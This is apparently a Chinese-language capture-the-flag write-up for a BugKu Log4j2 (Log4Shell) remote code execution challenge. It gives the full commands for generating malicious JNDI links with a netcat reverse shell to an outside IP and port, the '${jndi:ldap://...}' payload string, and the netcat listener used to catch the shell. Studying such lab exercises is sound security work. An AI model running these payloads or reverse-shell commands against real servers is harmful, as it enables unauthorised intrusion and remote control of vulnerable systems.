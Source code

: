 ### Apache Log4j2 RCE

话不多说，直接上题（BugKu CTF）

![](https://pic1.imgdb.cn/item/68105c7058cb8da5c8d398f8.png)

下载这个漏洞利用工具

![](https://pic1.imgdb.cn/item/68105b6b58cb8da5c8d390f2.png)

根据题目描述构造 payload

当目标服务器触发 JNDI 注入漏洞时，会执行该命令，向攻击者的 `113.45.17.228:9897` 发送一个反向 Shell

```shell
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "nc 113.45.17.228 9897 -e /bin/sh" -A 113.45.17.228
```

![](https://pic1.imgdb.cn/item/68105ab858cb8da5c8d38aba.png)

生成了五个恶意的 JNDI 链接

经测试 JDK 1.8 的可以

```shell
${jndi:ldap://113.45.17.228:1389/tt6z0a}
```

![](https://pic1.imgdb.cn/item/68105d7d58cb8da5c8d3a101.png)

在 VPS 上监听端口 `9897`

```shell
nc -n -lvvp 9897
# -n：禁用 DNS 解析
# -l：监听模式，等待连接
# -vv：详细输出
# -p：指定端口
```

![](https://pic1.imgdb.cn/item/68105dc858cb8da5c8d3a388.png)